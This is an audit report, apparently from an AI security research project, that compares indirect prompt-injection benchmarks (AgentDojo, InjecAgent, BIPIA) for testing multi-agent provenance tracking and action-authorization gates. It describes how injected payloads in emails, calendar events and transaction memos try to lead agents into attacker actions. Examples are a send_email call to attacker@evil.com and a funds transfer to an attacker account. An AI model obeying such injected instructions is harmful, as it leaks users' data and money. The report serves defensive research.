



# Phase 01D — Audit of Additional Indirect Prompt-Injection Datasets

**Project:** Direction B Multi-Agent Security Prototype  
**Date:** 2026-10-16  
**Document Version:** 1.0.0  
**Repository:** `D:\multiagent_security_prov\Multiagent_security_prov`  
**Reference Repository (Read-Only):** `D:\Agent_watch_prov`  
**Evaluation Model Target:** `qwen2.5:3b` (via local Ollama on NVIDIA RTX 3060 Laptop GPU, 6 GB VRAM)  
**Execution Environment:** Windows 10/11, Python 3.11.0, PyTorch 2.7.1+cu118, AgentDojo 0.1.35  

---

## 1. Executive Summary & Audit Scope

This report audits potential indirect prompt-injection dataset candidates to determine whether existing benchmarks can provide authentic, reproducible attack scenarios for evaluating **provenance survival across agent handoffs and downstream action authorization**.

### 1.1 Core Audit Findings
1. **Local Data Directory Status:** An exhaustive inspection of `D:\multiagent_security_prov\Multiagent_security_prov\data` confirmed that only the four previously audited SORRY-Bench variants (`question.jsonl`, `question_misspellings.jsonl`, `question_slang.jsonl`, `question_uncommon_dialects.jsonl`) reside on disk. No additional dataset files were present in this directory.
2. **Locally Resident Benchmark Infrastructure:** The project environment (`.venv`) has `agentdojo==0.1.35` installed and validated, providing four complete, executable benchmark suites: `v1.workspace` (40 user tasks, 6 injection tasks, 24 tools), `v1.banking` (16 user tasks, 9 injection tasks, 11 tools), `v1.slack` (21 user tasks, 5 injection tasks, 11 tools), and `v1.travel` (20 user tasks, 7 injection tasks, 28 tools).
3. **InjecAgent Status:** InjecAgent (Zhu et al., ACL 2024) is a documented academic candidate comprising 1,054 static indirect injection test cases across 17 user tools and 62 attacker tools. It is **not locally installed** or present in `data/`. In accordance with user instructions, it was **not downloaded**.
4. **Action-Level Ground-Truth Disparity:** Most prompt-injection datasets in the literature (e.g., BIPIA, Lakera, standard red-teaming sets) evaluate conversational output leakage or string matching. Only **AgentDojo** and **InjecAgent** provide explicit action-level specifications (tool definitions, target action arguments, and ground-truth validation).
5. **The Positive-Outcome Feasibility Boundary:** Historical data from AgentWatch (75 authentic trajectories in `D:\Agent_watch_prov\data`) demonstrates that local open-weight models (`qwen2.5:3b`, `llama3.2:3b`, `mistral-nemo:12b`) exhibit an empirical hijacking rate of $0\%$ ($N_{\text{pos}} = 0$) under standard AgentDojo single-agent attacks. Decomposing the task into a multi-agent handoff (Researcher $\to$ Planner) is necessary to determine whether inter-agent trust amplifies vulnerability, but experiments must remain bounded by strict scientific integrity constraints (no data fabrication).

### 1.2 Ranked Recommendation
- **Primary Core Recommendation: AgentDojo Suite `v1.workspace` & `v1.banking` (Locally Installed & Validated)**
  - Fully executable offline, stateful mock environments, verified deterministic ground truth for both utility (`is_task_completed()`) and security (`is_security_breached()`), zero download overhead, and seamless integration with existing project schemas.
- **Secondary Supplementary Candidate: InjecAgent (Pending User Approval to Download)**
  - 1,054 class-balanced test cases with explicit target tool and argument ground truth. Highly suitable as a static cross-validation set if AgentDojo's multi-turn environments yield insufficient positive cases under local models.
- **Excluded: Direct Refusal Sets (SORRY-Bench, AdvGLUE, etc.)**
  - Unsuitable for action authorization due to total absence of tools, actions, and indirect injection vectors.

---

## 2. Local Inventory and Verification Findings

### 2.1 File System Inspection Results

```
D:\multiagent_security_prov\Multiagent_security_prov\
├── data\                                       [VERIFIED: 4 SORRY-Bench files only]
│   ├── question.jsonl                          (92,842 bytes | 440 records | Direct Refusal)
│   ├── question_misspellings.jsonl             (89,811 bytes | 440 records | Direct Refusal)
│   ├── question_slang.jsonl                    (84,108 bytes | 440 records | Direct Refusal)
│   └── question_uncommon_dialects.jsonl        (101,417 bytes | 440 records | Direct Refusal)
├── .venv\Lib\site-packages\agentdojo\          [VERIFIED: Installed & Fully Functional]
│   └── default_suites\v1\                      (workspace, banking, slack, travel)
```

- **Inspected Path:** `D:\multiagent_security_prov\Multiagent_security_prov\data`
  - Record: Exactly 4 files, all belonging to the SORRY-Bench audit conducted in Phase 01C. Zero external prompt-injection files found.
- **Reference Repository Path:** `D:\Agent_watch_prov\data`
  - Record: 75 authentic historical execution traces (`collection_study`, `phase4a_collection`, `phase5b_collection`, `phase5c_collection`, `phase6a_collection`) and normalized feature matrices (`derived_datasets/features_multimodel_v2.csv`, `gate_points_v2.json`). Confirmed strictly read-only; no files modified.
- **Virtual Environment Audit:** Verified `agentdojo==0.1.35` installed in `.venv`. Programmatic inspection of `agentdojo.task_suite.load_suites` confirmed full availability of 4 default suites without internet connectivity.

---

## 3. Detailed Profiles of Candidate Datasets

We evaluate the four primary candidate datasets and benchmark families against the nine audit requirements.



---

### Candidate 1: AgentDojo Suite `v1.workspace` (Locally Installed & Verified)

* **Source & Provenance:** Debenedetti, Zhang, Balunovic, Fischer, & Vechev, *"AgentDojo: A Dynamic Environment to Evaluate Attacks and Defenses on LLM Agents"*, NeurIPS 2024 (arXiv:2406.13318). Developed by SRI Lab, ETH Zurich.
* **Version & License:** Version `0.1.35`, distributed under the **MIT License**.
* **Format & Size:** Python package code, Pydantic data models, YAML task configurations, stateful mock APIs (Google Calendar, Gmail, Google Drive). Zero disk overhead beyond installed package.
* **Injection Structure:** True indirect prompt injection. Attack payloads are embedded inside realistic external data entities: calendar event descriptions, email bodies, file contents.
* **Legitimate Task & Attacker Objective:**
  - *User Tasks (40 total):* Practical workspace tasks (e.g., `user_task_0`: scheduling appointments; `user_task_2`: emailing tomorrow's agenda to team members; `user_task_12`: compiling a report from files).
  - *Attacker Goals (6 injection tasks):* Exfiltration of confidential files to external emails (`send_email(to="attacker@evil.com", body=...)`), unauthorized calendar changes, or file deletions.
* **Tool Definitions & Execution Traces:** 24 whitelisted workspace tools with full JSON schemas, parameter type validations, and mock state containers. Multi-turn execution traces capture complete prompt/response trajectories.
* **Ground-Truth Rigor:** Programmatic verification functions:
  - `is_task_completed(state)`: Checks whether user's intended goal succeeded.
  - `is_security_breached(state)`: Checks whether the attacker's exfiltration or modification condition was executed in the environment state.
* **Multi-Agent & Transformation Compatibility:** Highly compatible. Tasks naturally split into a **Researcher Agent** (invoking `get_calendar_events`, `search_files_by_name`) $\to$ **Transformation Layer** (summarization, extraction, plan generation) $\to$ **Planner Agent** (proposing `send_email`, `write_file`).
* **Offline Execution & Compute:** 100% offline. Zero network calls required. Runs entirely on local Ollama `qwen2.5:3b`.
* **Empirical Limitation Verified in Direction A:** On local open-weight models (`qwen2.5:3b`, `llama3.2:3b`, `mistral-nemo:12b`), single-agent execution resulted in **0% attack success ($N_{\text{pos}} = 0$) across 75 trajectories**. In 75% of exposed cases, the model terminated without proposing any subsequent tool call.

---

### Candidate 2: AgentDojo Suite `v1.banking` (Locally Installed & Verified)

* **Source & Provenance:** Debenedetti et al., NeurIPS 2024 (`agentdojo==0.1.35`).
* **Version & License:** MIT License.
* **Format & Scale:** 16 user tasks, 9 injection tasks, 11 tools (e.g., `get_balance`, `get_transaction_history`, `transfer_funds`, `schedule_payment`).
* **Injection Structure:** Injected payloads embedded in transaction memos, incoming payment descriptions, or payee account names.
* **Action Authorization Relevance:** **Exceptionally High**. The banking environment features explicit, irreversible financial state changes:
  $$\text{transfer\_funds}(\text{recipient}=\text{"attacker\_iban"}, \text{amount}=5000)$$
  This provides a razor-sharp evaluation for **argument-level taint tracking**:
  - `transfer_funds` is a whitelisted tool.
  - Static authorization allows the tool.
  - Only inspecting the provenance of `recipient` (derived from an untrusted transaction memo) can detect and block the attack.
* **Ground-Truth Rigor:** Native programmatic state checks evaluating account balances and transfer logs.
* **Status:** Resident in local `.venv`. Never evaluated on `qwen2.5:3b` in Direction A (represents an untapped, authentic benchmark surface).

---

### Candidate 3: InjecAgent (Documented Candidate — Not Locally Installed)

* **Source & Provenance:** Qiusi Zhu, Emily Shen, et al., *"InjecAgent: Benchmarking Indirect Prompt Injections in Tool-Integrated Large Language Model Agents"*, ACL 2024 (arXiv:2403.02691). UIUC Kang Lab.
* **Repository & License:** `https://github.com/uiuc-kang-lab/InjecAgent`, distributed under the **MIT License**.
* **Scale & Format:** 1,054 static test cases in JSON/JSONL format (~3.5 MB total).
* **Dataset Structure:**
  - `User Instruction`: Benign request given to the agent.
  - `Tool Response`: Simulated tool observation containing an embedded attacker instruction.
  - `Attacker Instruction`: Specific injection payload.
  - `Target Tool`: Ground-truth tool the attacker attempts to trigger.
  - `Target Tool Arguments`: Ground-truth dictionary of malicious arguments (e.g., exfiltration URL, malicious recipient).
* **Tool Coverage:** 17 user tools and 62 attacker tools across 33 categories (Data Theft, Service Disruption, Financial Loss).
* **Key Strength for Provenance Research:** Unlike AgentDojo, which requires dynamic multi-turn environment execution, InjecAgent provides **explicit, pre-labeled target action arguments** for every test case. This allows direct computation of **Argument Taint Precision and Recall** ($P_{\text{taint}}, R_{\text{taint}}$).
* **Key Limitations:**
  1. **Not Installed Locally:** Must be cloned or downloaded from GitHub (requires user approval).
  2. **Static / Single-Turn Nature:** InjecAgent evaluates one-step ReAct prompt completions rather than multi-turn stateful environment progression.
  3. **Multi-Agent Adaptability:** To evaluate multi-agent handoffs, an adapter must feed the `Tool Response` to the Researcher Agent, apply summarization/paraphrasing, and pass the resulting handoff to the Planner Agent.
* **Offline Compatibility:** Once downloaded, JSON files require zero internet access and minimal compute.

---

### Candidate 4: BIPIA (Benchmarking Indirect Prompt Injection Attacks — Documented)

* **Source & Provenance:** Yifan Sun et al., *"Benchmarking Indirect Prompt Injection Attacks"*, 2023 (arXiv:2312.14197). Microsoft & Fudan University.
* **Scope & Tasks:** Text processing tasks: email summarization, web QA, and table QA.
* **Threat Model:** Focuses on whether the LLM's **text response** is corrupted, leaks private context into chat, or outputs attacker-chosen strings.
* **Suitability for Direction B:** **UNSUITABLE for Core Action Authorization**. BIPIA does not evaluate tool execution, structured function calling, or downstream action authorization. It is a text-generation corruption benchmark.

---

### Candidate 5: SORRY-Bench (Audited in Phase 01C — Resident in `data/`)

* **Status:** Audited in Phase 01C. 4 files $\times$ 440 records = 1,760 single-turn prompts.
* **Suitability for Indirect Injection:** **UNSUITABLE**. Tests direct user safety refusal; contains zero tools, zero observations, zero handoffs, and zero actions.

---

## 4. Comprehensive Suitability Matrix

| Evaluation Dimension | AgentDojo `v1.workspace` | AgentDojo `v1.banking` | InjecAgent (ACL 2024) | BIPIA (2023) | SORRY-Bench (ICLR 2025) |
|---|---|---|---|---|---|
| **Local Availability** | **Resident (`.venv`)** | **Resident (`.venv`)** | Not Installed (Documented) | Not Installed | Resident (`data/`) |
| **License & Terms** | MIT (Permissive) | MIT (Permissive) | MIT (Permissive) | MIT (Permissive) | Custom Agreement (Non-distrib) |
| **Attack Vector** | True Indirect Injection | True Indirect Injection | True Indirect Injection | True Indirect Injection | Direct User Prompt |
| **Observation Medium** | Real Files, Emails, Calendar | Transaction Memos, Payees | Simulated Tool Returns | Web Pages, Email text | Plain Chat Query |
| **Tool Calling Supported** | Yes (24 Tools) | Yes (11 Tools) | Yes (17 User + 62 Attacker) | No (Text QA only) | No |
| **Action Arguments Labeled** | Yes (Programmatic) | Yes (Programmatic) | **Yes (Explicit Ground Truth)** | No | No |
| **Stateful Environment** | **Yes (Live State)** | **Yes (Live State)** | No (Prompt-based) | No | No |
| **Benign Utility Baseline** | Yes (Matched Benign Runs) | Yes (Matched Benign Runs) | Limited (User prompts only) | Yes | Yes (Benign controls) |
| **Multi-Agent Adaptability** | **Native Decomposition** | **Native Decomposition** | Requires Wrapper | No | No |
| **Action Authorization Fit** | **Direct (Execution Gate)** | **Direct (High-Impact Gate)**| Direct (Argument Matching) | Unsupported | Unsupported |
| **Historical Local Baseline** | 75 runs ($N_{\text{pos}}=0$) | Unrun on local model | Unrun on local model | Unrun | Audited (Refusal only) |

---

## 5. Positive-Outcome Coverage & The Local Model Inertia Problem

The central empirical dilemma identified in Phase 6B and Phase 01 is **the absence of positive attack hijacking ($N_{\text{pos}} = 0$) in small local instruction-tuned models**.



### 5.1 Why $N_{\text{pos}} = 0$ Threatens Action-Authorization Research
- If the Planner never proposes an unauthorized tool call, an Action Authorization Gate cannot demonstrate empirical attack mitigation ($BAR = \text{undefined}$ or uninformative).
- Conventional benchmarks often report 80–90% Attack Success Rates, but they evaluate frontier proprietary models (GPT-4, Claude 3.5 Sonnet) that possess the instruction-following fidelity required to balance conflicting instructions. Local 3B models either prioritize the user prompt or fail to generate valid multi-step tool calls.

### 5.2 How Candidate Datasets Address This Challenge
1. **AgentDojo `v1.banking`:**
   - Tasks are structurally simpler than `workspace` (e.g., read statement $\to$ approve payment). Reduced task complexity increases the probability that `qwen2.5:3b` reaches post-exposure decision points.
2. **InjecAgent:**
   - Because InjecAgent test cases are single-turn (the model is presented directly with the simulated observation containing the attack), there are no complex intermediate environment turns to cause premature termination. If local models are susceptible to immediate suggestion, InjecAgent will trigger positive proposals where multi-turn AgentDojo stalled.
3. **Strict Scientific Integrity Rule:**
   - Under no circumstances will attack prompts be manually modified, strengthened with jailbreak prefixes, or optimized against `qwen2.5:3b` to manufacture artificial positive cases. If $N_{\text{pos}} = 0$ persists across both `workspace` and `banking`, this will be documented as an empirical finding bounding local model security capability.

---

## 6. Action-Level Ground Truth and Provenance Tracking Compatibility

For a dataset to support the Direction B research question, it must provide verifiable data contracts across three interfaces:

### 6.1 Required Data Contracts

```
[Untrusted Tool Observation] ──(Taint: UNTRUSTED)──> [Handoff Summary] ──> [Proposed Tool Call] ──> [Gate Decision]
```

1. **Observation Taint Contract:** The dataset must clearly delineate what portion of an observation is legitimate data vs. untrusted payload.
   - *AgentDojo:* Naturally satisfies this via environment state fixtures.
   - *InjecAgent:* Explicitly satisfies this via the `"Tool Response"` and `"Attacker Instruction"` fields.
2. **Action Argument Contract:** The proposed action must contain concrete arguments that can be analyzed for provenance lineage.
   - *AgentDojo:* Real arguments passed to Python tool functions (e.g., `recipient`, `subject`, `file_path`, `body`).
   - *InjecAgent:* Expected target arguments explicitly specified in JSON fixtures.
3. **Deterministic State Ground Truth:**
   - *AgentDojo:* Programmatic state inspection (`is_security_breached`).
   - *InjecAgent:* Exact dictionary comparison against expected target arguments.

---

## 7. Multi-Agent Decomposition Feasibility

Neither AgentDojo nor InjecAgent was originally authored as a multi-agent benchmark. However, both can be adapted into the **Researcher $\to$ Transformation Layer $\to$ Planner** architecture without altering benchmark fixtures:

### 7.1 Mapping Pipeline for AgentDojo



- **Non-Invasive Adaptation:** The AgentDojo environment is unaware that two agents are executing. The coordinator routes read tools to the Researcher and action tools to the Planner.

---

## 8. Local Hardware and Environmental Feasibility

### 8.1 Resource Audit
- **VRAM Footprint:** `qwen2.5:3b` consumes ~2.2 GB VRAM in Ollama on the RTX 3060 (6 GB total VRAM). Ample headroom exists for sequential execution.
- **System RAM Headroom:** Baseline free physical RAM is measured at **2.48 GB** with desktop applications open, expandable to **~7.5 GB** when non-essential applications are closed.
- **Compute Efficiency:**
  - Running a 2-agent sequential turn requires ~10–15 seconds per turn on the RTX 3060.
  - A 20-run calibration pilot will execute in approximately **15 to 25 minutes**.
- **Network Independence:** Zero cloud APIs, zero external requests. Both AgentDojo and InjecAgent (if downloaded) execute entirely offline.

---

## 9. Ranked Recommendations

Based on empirical availability, action-level ground truth, and threat-model alignment:

### 1. Primary Core Benchmark: **AgentDojo `v1.workspace` & `v1.banking`**
- **Recommendation:** **CORE EVALUATION PLATFORM**.
- **Justification:** Already installed, verified, and integrated. Provides true multi-turn stateful environments with verifiable security and utility ground truth. Expanding beyond `workspace` into `banking` introduces high-stakes, argument-sensitive actions (`transfer_funds`) that directly evaluate the core research question.

### 2. Secondary Cross-Validation Candidate: **InjecAgent (Zhu et al., ACL 2024)**
- **Recommendation:** **PROPOSED COMPLEMENTARY DATASET (Awaiting Approval)**.
- **Justification:** If `qwen2.5:3b` demonstrates complete inertia ($N_{\text{pos}} = 0$) across AgentDojo multi-agent tasks, InjecAgent provides 1,054 single-turn indirect injection cases with explicit target argument ground truth.
- **Condition:** Do **not** download now. Keep as an approved contingency if the Phase 02 calibration pilot yields zero positive proposals.

### 3. Excluded Benchmarks: **SORRY-Bench, BIPIA, AdvGLUE**
- **Recommendation:** **EXCLUDE FROM CORE ACTION EVALUATION**.
- **Justification:** Lack tool-calling execution environments, action arguments, and multi-agent interaction surfaces.

---

## 10. Proposed Phase 02 Calibration Pilot Protocol

To resolve whether multi-agent handoffs produce non-zero hijacking opportunities ($N_{\text{pos}} \ge 1$) on `qwen2.5:3b` before full matrix benchmarking, we propose a lightweight **Phase 02 Calibration Pilot**:

### Pilot Configuration
- **Total Runs:** 16 controlled runs on `qwen2.5:3b` (100% GPU offload).
- **Task Distribution:**
  - 8 Workspace runs: 4 benign + 4 attacked (`user_task_2`, `user_task_8`).
  - 8 Banking runs: 4 benign + 4 attacked (`user_task_0`, `user_task_2`).
- **Pipeline Architecture:** Minimal Two-Agent Sequential Pipeline (Researcher $\to$ Summarization Handoff $\to$ Planner $\to$ Gate).
- **Measurements:**
  1. *Provenance Survival Rate ($\text{PSR}$):* Percentage of tainted observation tokens retaining `UNTRUSTED` tags across summarization.
  2. *Benign Utility Retention ($\text{TSR}$):* Does the two-agent split preserve task success?
  3. *Hijack Proposal Count ($N_{\text{pos}}$):* Does the Planner propose *at least one* harmful action matching the attacker's goal?

---

## 11. Document History

| Version | Date | Author / Role | Status / Description |
|---|---|---|---|
| `1.0.0` | 2026-10-16 | Senior AI Security Researcher | Completed Phase 01D audit of candidate indirect prompt-injection datasets |

**Stop Condition Met:** Phase 01D report complete. Awaiting user review and approval before implementing the prototype or running any inference pilot.
